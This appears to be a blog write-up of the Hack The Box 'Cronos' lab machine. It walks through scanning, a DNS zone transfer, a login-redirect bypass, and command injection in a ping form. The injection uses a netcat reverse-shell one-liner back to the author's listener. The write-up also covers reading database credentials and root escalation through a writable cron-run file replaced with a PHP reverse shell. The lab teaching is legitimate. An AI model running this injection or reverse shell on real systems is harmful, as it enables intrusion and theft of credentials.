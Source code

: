 ```yaml
---
title:     "Hack The Box - Cronos"
tags: [linux,medium,domain,cron,redirection]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/1.png)

We are going to pwn Cronos from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/11>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 4.8 (92%), Linux 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/2.png)
Its an apache2 default webpage.

I edited my ``/etc/hosts`` file to add the machine’s name ``cronos.htb`` and then revisit the page to check it shows any different page.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/3.png)

The server is running ``laravel framework`` every page leads to ``laravel`` releated things.
So I started checking other ports.

## Port 53:

Which is ``domain`` may be we can do a zone transfer for that domain. For that we can use a tool named ``dig``.

> dig - DNS lookup utility

By using this we can find other domains available for the webpage. 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/4.1.png)

> AXFR, is a type of DNS transaction. It is one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers.

Got some new domains, So I added those new entries to ``/etc/hosts``

Started from ``admin.cronos.htb``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/4.png)
Its an Login page!!

Lets bruteforce the directories using ``Gobuster`` to check if anything useful for us.

## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://admin.cronos.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/01/16 20:34:34 Starting gobuster
===============================================================
 /index.php (Status: 200)
 /welcome.php (Status: 302)
 /logout.php (Status: 302)
 /config.php (Status: 200)
 /session.php (Status: 302)
 /server-status (Status: 403)
```

When I try to enter ``/welcome.php`` it redirects to ``/login.php`` , So we can stop the redirection and see what that page leads us.<br/>
We can use ``intruder`` from burp to do this process.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/5.png)<br/>
All we need to do is change ``302 Found`` to ``200 Ok``.

For that open ``Proxy -> Options -> Match and Replace``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/6.png)

``/welcome.php`` it leads to a page where it has a tool to ping.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/7.png)

So I tried some normal command injections and  ``&&`` helps to exec another commands.

`` 10.10.14.8 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f ``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/8.png)<br/>
We got the shell

While checking for any useful files in ``/var/www`` found ``/admin.php/config.php``  and its give me ``mysql`` credentials
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/9.png)

I logged in with them to check any user credentials available and found a hash for admin but it takes some time to crack the hash.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/10.png)

## Privilege Escalation:

I uploaded my Enumeration Script to the box and found there is a cronjob running so I uploaded ``pspy`` to see whats actually going on.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/11.png)

We have write permission on the on the folder ``/var/www/laravel/``and its running as php so we can create a file with the same name ``artisan`` and upload our php reverse shell.

I created ``artisan`` file in my machine with php reverse shell and uploaded to the box.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/12.png)

Started my Listener and waited for the cronjob to execute my reverse shell
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cronos/13.png)

Got Root!!